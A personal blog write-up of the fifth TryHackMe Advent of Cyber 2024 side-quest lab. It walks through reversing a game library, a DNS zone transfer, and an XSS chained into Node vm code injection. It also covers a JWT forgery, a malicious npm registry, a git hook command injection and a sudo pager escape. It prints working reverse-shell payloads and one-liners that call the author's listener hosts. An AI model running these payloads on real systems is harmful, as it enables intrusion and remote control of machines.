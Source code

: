 * Advent of Cyber Side Quest (Part 5)

30 December 2024

Fifth and final part of the TryHackMe Advent of Cyber Side Quest!  See [[https://0x85.org/sidequest2024-1.html][Part 1]] for context.

*** The Keycard
At the end of the "game hacking" main quest day, there was a tidbit about doing what the second pengun says, which made my spidey senses tingle, so I grabbed the game binary and ~libaocgame.so~ off the attackbox machine to my laptop for analysis.  Running ~strings~ on the game obviously produced a /lot/ of strings, most of them irrelevant.  But:

#+begin_src
$strings ./TryUnlockMe | grep -i "password"
Incorrect password...
Password accepted. The secret phrase to open the vault is 'where_is_the_yeti'
#+end_src

I thought at first this might be the keycard code, but all the previous challenges had actual graphical keycards, so I put ~where_is_the_yeti~ into my notes for later.  Next I fired up Ghidra and poked around at the game.  Didn't find much, but in the Exports section of ~libaocgame.so~, Ghidra identified this interesting tidbit:

[[./img/libaocgame-exports.png]]

Investigating the decompiled function showed a ton of nested conditionals, probably to defeat searching via ~strings~:

[[./img/12345.png]]

Sure seemed to me that we needed to call ~create_keycard()~ from the shared object library with the parameter ~one_two_three_four_five~ which would then produce the keycard via a ~std::basic_ofstream~.  I threw together a quick C++ program to do exactly that:

#+begin_src C++
  #include <iostream>
  #include <dlfcn.h> //to load .so's dynamically

  int main() {
    void* handle = dlopen("./libaocgame.so", RTLD_LAZY);
    if(!handle) {
      std::cerr << "Could not open: " << dlerror() << std::endl;
      return 1;
    }

    dlerror(); // clear pre-existing errors

    //resolve the mangled name we got from ghidra to a function ptr
    typedef int (*createkeycardfunc)(const char*);
    createkeycardfunc createkeycard = (createkeycardfunc)dlsym(handle, "_Z14create_keycardPKc");

    const char* error = dlerror();
    if (error){
      std::cerr << "Error resolving symbol: " << error << std::endl;
      dlclose(handle);
      return 1;
    }

    std::cout << createkeycard("one_two_three_four_five");
    dlclose(handle);

    return 0;
  }
#+end_src

Sure enough, a zip file popped out, and the password to open that zip file was ~where_is_the_yeti~!

[[./img/aoc-sidequest-keycard5.png]]

*** T5: An Avalanche of Web Apps
Booting up the machine and running the usual scans revealed nothing particularly unusual:

#+begin_src
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2024-12-31 03:45:41 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 21337/tcp on 10.10.248.21
Discovered open port 53/tcp on 10.10.248.21
Discovered open port 22/tcp on 10.10.248.21
Discovered open port 80/tcp on 10.10.248.21
#+end_src

I tried to browse to the machine since port 80 was open and was immediately redirected to ~http://thehub.bestfestivalcompany.thm/~.  Interesting.  Since port 53 (DNS) was open on the machine I added the ~.thm~ domain to ~/etc/hosts~ and queried the dns resolver for all domains:

#+begin_src
dig @10.10.248.21 bestfestivalcompany.thm axfr

; <<>> DiG 9.18.28-1~deb12u2-Debian <<>> @10.10.248.21 bestfestivalcompany.thm axfr
; (1 server found)
;; global options: +cmd
bestfestivalcompany.thm. 600    IN      SOA     bestfestivalcompany.thm. hostmaster.bestfestivalcomp$
bestfestivalcompany.thm. 600    IN      NS      bestfestivalcompany.thm.
bestfestivalcompany.thm. 600    IN      NS      0.0.0.0/0.
thehub-uat.bestfestivalcompany.thm. 600 IN A    172.16.1.3
thehub-int.bestfestivalcompany.thm. 600 IN A    172.16.1.3
adm-int.bestfestivalcompany.thm. 600 IN A       172.16.1.2
thehub.bestfestivalcompany.thm. 600 IN  A       172.16.1.3
npm-registry.bestfestivalcompany.thm. 600 IN A  172.16.1.2
bestfestivalcompany.thm. 600    IN      SOA     bestfestivalcompany.thm. hostmaster.bestfestivalcomp$
;; Query time: 170 msec
;; SERVER: 10.10.248.21#53(10.10.248.21) (TCP)
;; WHEN: Mon Dec 30 19:51:33 PST 2024
;; XFR size: 9 records (messages 1, bytes 457)
#+end_src

Innnteresting.  Got my hosts file all squared away with these new domains and started poking around.  There was a contact page on one, an npm registry on another, an "under construction" page, and a login portal.  After a few dozen minutes of poking I tested the contact page for XSS, by running a netcat listener and uploading a simple javascript that would call back to my listener, and sure enough there was some sort of timer running there, calling my listener.  I guess to simulate humans looking at the comments coming in?  Not sure, but it worked.  I spent a whole day poking around and getting the XSS to echo things back to me and eventually, by having the XSS echo the contents of the inside rendered HTML to me, discovered links to ~/wiki~.  I also discovered a package on the npm-registry authored by "McSkidy" which is a character from TryHackMe.  It was a custom markdown parser, and a careful examination of the code revealed it was vulnerable to code injection:

#+begin_src javascript
  const dynamicCodeRegex = /\{\{(.*?)\}\}/g;
  html = html.replace(dynamicCodeRegex, (_, code) => {
    try {
      const sandbox = {
	...context,
	require,
      };
      return vm.runInNewContext(code, sandbox);
    } catch (error) {
      return `<span style="color:red;">Error: ${error.message}</span>`;
    }
  });
#+end_src

The code regex looks for syntax matching ~{{ ... }}~, and if found executes that code using ~vm.runInNewContext~, and the sandbox includes ~require~ which means we can craft a payload that ~require~s nefarious things.  I then spent far too long trying to get this combo injection attack working, and eventually succeeded with this payload:

#+begin_src javascript
  <script>
  var xhr = new XMLHttpRequest();
  xhr.open('POST', '/wiki', true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.withCredentials = true;
  var payload = 'title=whatever&markdownContent={{(function(){var net = require("net"),cp = require("child_process"),sh = cp.spawn("sh", []);var client = new net.Socket();client.connect(8888, "10.10.151.165", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();}}'
  xhr.send(payload);
  </script>
#+end_src

That got us a reverse shell but it died within seconds, I guess when the VM context was destroyed.  So I prepped a python one-liner to stabilize the shell and tried again.  When the rev shell popped I quickly pasted this into it, slightly modified from [[https://revshells.com][revshells]]:

#+begin_src python
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.21.161",8585));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
#+end_src

That got a second reverse shell, but this one was stable.  Now I could begin poking around the machine, and quickly found the first flag in the root of the container.  Searching around the filesystem I discovered a git repository in ~/app/bfc_thehubuat/assets~, but git itself wasn't installed.  I transferred it back to my machine as a tarball and found only three commits inside, by a user ~bfc_admin@bestfestivalcompany.thm~.  Further in the assets directory I found a backups folder with a private key.  I tried to ssh to all the various machines with that username and private key and discovered ~gitolite~ was running on the main machine, which gave readonly access to several other git repositories.  The ~admint~ repo was the most interesting, as it contained three interesting routes:

- ~/restart-service~, presumably to cause changes in config or code to take effect
- ~/modify-resolv~, to specify new DNS entries
- ~/reinstall-node-modules~ to I guess allow us to upload malicious npm packages?

It also contained some jwt validation:

#+begin_src javascript
  jwt.verify(token, publicKey, { algorithms: ['RS256'] }, (err, user) => {
      if (err || user.username !== 'mcskidy-adm') {
	  return res.status(403).json({ error: 'Forbidden' });
      }
      req.user = user;
      next();
  });
#+end_src

So, it became clear to me that it was necessary to forge credentials as ~mcskidy-adm~ to proceed further, and probably also redirect the npm registry to a malicious server, to serve vulnerable packages.

Before doing that, however, it was necessary to edit the contents of ~/app/bfc_thehubuat/assets/jwks.json~ with a new public key, and forge a new JWT with ~{"username": "mcskidy-adm"}~ using Burp.

After a great deal of trial and error with ~package.json~ I realized I was overthinking it, and created a "registry" serving a vulnerable version of ~express~ with a reverse shell (again, just a copy-paste from [[https://revshells.com][revshells]]) inserted into ~index.js~.

With that, it was necessary to hit the ~/modify-resolv~ endpoint to overwrite the nameserver to point to my laptop (~10.2.21.161~) where I installed ~dnsmasq~.  From there the next step was to trigger a reinstall of the node modules with that endpoint, causing the compromised version of ~express~ to be loaded and getting a root shell inside the container on the ~172.16.1.2~ machine, where we can get the flag:

#+begin_src
$ cat /flag-1c12bcbb1fee96a928d4f89550dcb60d.txt
THM{647aff4143b04972ba816f040e9b81c2}
#+end_src

God damn, that was convoluted.  I'm pretty sure I missed a few minor steps in there, because by this point I was rushing to get it done before midnight GMT on the 31st, and also coming down with a cold I caught from my daughter, so the notes I was keeping for this section weren't as complete.  But I'm confident I didn't miss anything major.

Anyway, digging further there's a ~root.key~ in the ~admint~ app, which I thought I might need to revert a commit or something if it gave write access (being root, after all).

#+begin_src
# ssh -i root.key git@bestfestivalcompany.thm
PTY allocation request failed on channel 0
hello developer, this is git@tryhackme-2404 running gitolite3 3.6.12-1 (Debian) on git 2.43.0

 R W    admdev
 R      admint
 R      bfcthehubint
 R      bfcthehubuat
 R      gitolite-admin
 R      hooks_wip
 R      underconstruction
Connection to 172.16.1.1 closed.
#+end_src

*** OMG SO MANY SHELLS
Well I now have write to ~admdev~ but not what I was expecting.  There's a new repo I hadn't seen before called ~hooks_wip~, so I cloned it and discovered a single post-receive hook that appeared to be vulnerable to injection:

#+begin_src
...
bash -c "echo $(date) - Ref: $refname - Commit: $commit_message >> $LOGFILE"
...
#+end_src

Since the commit message is something the user can control, we could just put shell commands into the commit message and it will get executed:

1. ~$ touch lol.txt~
2. ~$ git add lol.txt~
3. ~$ git commit -m 'fgsfds; busybox nc 10.2.21.161 4444 -e sh'~
4. Push and enjoy yet another shell


So that got me a shell as the ~git~ user, and the third flag happened to be in ~/home/git~.  To get root from there, ~sudo -l~ says we can run ~/usr/bin/git --no-pager diff *~ with ~sudo~.  Well it turns out that if you issue ~$ sudo /usr/bin/git --no-pager diff --help~, the ~--help~ flag overrides the ~--no-pager~ flag, and you get a pager regardless.  That's critical because in the pager you can just type ~!sh~, which gives you a shell, and since we're running under sudo then it's (another) root shell to get the fourth and final flag.

#+begin_src
# cat /root/flag-e116666ffb7fcfadc7e6136ca30f75bf.txt
THM{05a830d2f52649c96318cce20c562b63}
#+end_src

Holy crap.  I finished mere hours before the embargo lifted so I'm counting this as a win.
